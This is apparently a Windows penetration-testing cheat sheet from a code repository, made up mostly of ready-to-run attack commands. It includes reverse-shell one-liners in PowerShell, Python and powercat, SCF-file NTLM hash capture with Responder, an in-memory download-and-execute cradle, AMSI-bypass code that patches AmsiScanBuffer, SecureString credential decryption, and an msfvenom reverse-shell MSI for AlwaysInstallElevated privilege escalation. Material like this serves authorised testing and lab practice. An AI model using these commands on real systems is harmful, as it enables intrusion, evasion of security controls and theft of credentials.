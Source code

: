 ## exploiting UNC paths to get NTLM hash
To get NTLM hashes are to somehow get an authenticated connection back to us, there by giving us hashes
1. One of of doing it is to somehow upload .scf files to the machine. SCF files are command files which containt very limited amount of windows explorer commands, which does not need any user interaction, and gets executed the moment a user opens the directory which contains the .scf file. So hence we can specify a UNC path to connect to and set up an smb server using responder, this will give us the NTLM hashes, because given a UNC path, windows thinks that it needs to authenticate to the remote machine, thereby giving away its hash. This attack was also prevelant in .lnk(shortcuts) files but was patched. More on this here https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

## getting a reverse shell:-
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` (via powershell)<br />
or<br />
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["cmd.exe"]);'` (via python) 
or<br />
`powercat -c "IP" -p PORT -e cmd.exe` (via powercat)<br />
or<br />
simply use netcat
## first move to a powershell:-
powershell.exe

## then the obvious:-
`whoami`<br />
`echo %username%` (if whoami doesnt work) ONLY FOR CMD NOT FOR POWERSHELL<br />
`$ENV:USERNAME` (if whoami doesnt work) ONLY FOR POWERSHELL NOT FOR CMD<br />
`whoami /priv`<br />
`net user`<br />
`net localgroup Administrators`<br />
`Get-ExecutionPolicy`<br />
`powershell.exe -ep bypass` (to set execution policy to bypass)<br />
`Get-Host | Select-Object Version` (to check the whole version of powershell)<br />
`$PSVersionTable.PSVersion.Major` (to check the version of powershell)


## About the system and proccess running:-
`systeminfo`<br />
`tasklist`<br />
`([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)` (to check if you r admin or not)<br />
`(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1")` (to check for smb version 1)<br />

## Running scripts from memory
`iex (New-Object Net.WebClient).DownloadString('http://ip/script.ps1'); "function name with args"`

## Bypassing AMSI
```powershell
$code = @"
using System;
using System.Runtime.InteropServices;

public class Native
{

[DllImport("kernel32.dll")]
public static extern IntPtr LoadLibrary(string name);

[DllImport("kernel32.dll")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

[DllImport("kernel32.dll")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $code
$amsiDll = [Native]::LoadLibrary("am" + "si.dll")
$asbAddress = [Native]::GetProcAddress($amsiDll, "Am" + "si" + "Sc" + "an" + "Buf" + "fer")
$ret = [Byte[]] ( 0xC3 )
$o = 0
[Native]::VirtualProtect($asbAddress, [uint32]$ret.Length, 0x40, [ref] $o)

[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddress, $ret.Length)
[Native]::VirtualProtect($asbAddress, [uint32]$ret.Length, $o, [ref] $null)
```

## Locate files in the whole drive
`dir filename.extension /s` (do it from C:\ folder)(supports regex)
`dir /a /q` (linux like ls -la, gives time modified as well as file owner)

## Show all folders and files including hidden ones
* `dir /a` - For cmd.exe
* `dir -force` - For powershell.exe
<br />

## To Download somthing from the internet or intranet:-
`powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://ip address/domain:port/file","download location's full path\programname.extension")`<br />
`powershell Invoke-Webrequest -OutFile 'Dstn path.Extension' -Uri http://ip address/domain:port/file`

**Note**: 
    curl too works in powershell, except for windows-IoT and similar minimal installations <br />
#### usage example:
    curl http://<IP>:<PORT>/file_name -Output Output_filename     

## Decrypting Powershell SecureString (ONLY WORKS WHEN YOU ARE THE OWNER OF THE XML FILE)
### If you have a xml object file

`$credential = Import-CliXml -Path  PathToXml\MyCredential.xml` <br />
`$credential.GetNetworkCredential().Password` <br />

### If you have a single string

`$secretStuff = Get-Content  -Path secretstuff.txt | ConvertTo-SecureString` <br />
`[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($secretStuff))))`

## Checking and exploiting AlwaysInstallElevated Permission

To check if this permission is enabled or not

1. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
2. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If both of these come 0x1 then that means the permissions is allowed.
If it is allowed then we can install any .msi file with system privelages so now we just need to make a payload from msfvenom like this "msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=2345 --encoder x64/xor --iterations 9 --format msi --out test.msi" and put it in the target box and simply execute it by not trigger the uac and any gui with this "msiexec /quiet /qn /i test.msi" and u get a shell on your listener

## Checking any remaing sticky keys

Sometimes users do put stuff in sticky keys which is stored in C:\Users\USER\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState
